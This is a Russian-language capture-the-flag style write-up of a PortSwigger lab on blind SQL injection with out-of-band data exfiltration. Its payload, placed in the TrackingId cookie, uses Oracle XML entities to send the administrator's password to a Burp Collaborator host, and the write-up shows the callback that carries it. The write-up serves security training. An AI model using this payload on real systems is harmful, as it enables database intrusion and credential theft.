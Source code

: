 ```yaml
---
title: "Blind SQL injection with out-of-band data exfiltration"
date: 2025-06-13
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-using-out-of-band-oast-techniques/sql-injection/blind/lab-out-of-band-data-exfiltration"
classes: wide
---
```


В данной лабе есть уязвимый к **SQL injection** параметр `Cookie`. Запрос к БД запускается асинхронно, поэтому никак не влияет на ответ. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


```
https://0a400054044bb18082e8483a0054005e.web-security-academy.net/
```

## Solution

Из условий известно, что уязвимость находится в `Cookie`. Возьму `GET`-запрос:

```http
GET / HTTP/2
Host: 0a400054044bb18082e8483a0054005e.web-security-academy.net
Cookie: TrackingId=UbtpL1eU8WTJJnbk; session=yDusRS9cZxrDSDWS8cUkWL13ToIW7ozX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a400054044bb18082e8483a0054005e.web-security-academy.net/filter?category=Accessories
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Из опыта решений знаю, что уязвимым параметром будет `TrackingId`. Поэтому попробую для него подставить пейлоад с сайта на [странице](https://portswigger.net/web-security/sql-injection/cheat-sheet).

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Таким образом моя инъекция будет иметь следующий вид:

```
x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username = 'administrator')||'.utr7hqefxcz9taztyzd5gz3kfbl295xu.oastify.com/"> %remote;]>'),'/l') FROM dual-- -
```

На `Burp Collaborator` мне пришел следующий запрос, где поддомен является паролем:

```http
GET / HTTP/1.0
Host: oqc01jkxxk54bqg9mdes.vvu8jrggzd1avb1u00f6i05lhcn3b5zu.oastify.com
Content-Type: text/plain; charset=utf-8
```

Попробую зайти в ЛК:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_out-of-band_data_exfiltration/1.png){: height="200" .align-center}

Получилось:3 ☕
